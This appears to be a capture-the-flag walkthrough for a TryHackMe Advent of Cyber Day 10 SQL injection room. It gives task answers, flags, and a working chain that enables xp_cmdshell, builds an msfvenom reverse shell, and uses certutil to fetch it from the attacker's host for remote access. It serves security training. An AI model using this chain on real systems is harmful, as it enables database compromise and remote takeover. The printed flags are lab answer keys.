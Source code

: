 # Day 10

![image](https://github.com/W4W1R3/Advent-Of-Cyber-2023-Walkthroughs/assets/57982315/f4d5cec6-14b2-420e-9428-3d232f71c555)

## Day 10 — Tasks Answers
### 1. Manually navigate the defaced website to find the vulnerable search for What is the first webpage you come across that contains the gift-finding feature?

    /giftsearch.php

### 2. Analyze the SQL error message that is returned. What ODBC Driver is being used in the back end of the website?

Inject a Quote on a parameter ‘

    ODBC Driver 17 for SQL Server

### 3. Inject the 1=1 condition into the Gift Search form. What is the last result returned in the database?

Inject the code after the value of parameter ‘OR 1=1 --

    THM{a4ffc901c27fb89efe3c31642ece4447}

### 4. What flag is in the note file Gr33dstr left behind on the system?

        Inject the below code first
        http://THM-MACHINE-IP/giftresults.php?age='; EXEC sp_configure ‘show advanced options’, 1; RECONFIGURE; EXEC sp_configure ‘xp_cmdshell’, 1; RECONFIGURE; --
        Create a payload using the below command
        msfvenom -p windows/x64/shell_reverse_tcp LHOST=YOUR.IP.ADDRESS.HERE LPORT=4444 -f exe -o reverse.exe

3. Start an HTTP server to host the payload with the below command
python3 -m http.server 8000

4. Send the payload to the victim site using the below command
http://THM-MACHINE-IP/giftresults.php?age='; EXEC xp_cmdshell ‘certutil -urlcache -f http://YOUR.LISTENING.IP.ADDRESS.HERE:8000/reverse.exe C:\Windows\Temp\reverse.exe’;--

5. Set a listener using the below command
nc -lnvp 4444

6. Execute the payload using the command
http://THM-MACHINE-IP/giftresults.php?age='; EXEC xp_cmdshell ‘C:\Windows\Temp\reverse.exe’; —

7. Change the directory to Administrator using the command
Cd C:\Users\Administrator

8. View the Content of Note.txt using the below command
type Note.txt

Ans: THM{b06674fedd8dfc28ca75176d3d51409e}

5. What is the flag you receive on the homepage after restoring the website?

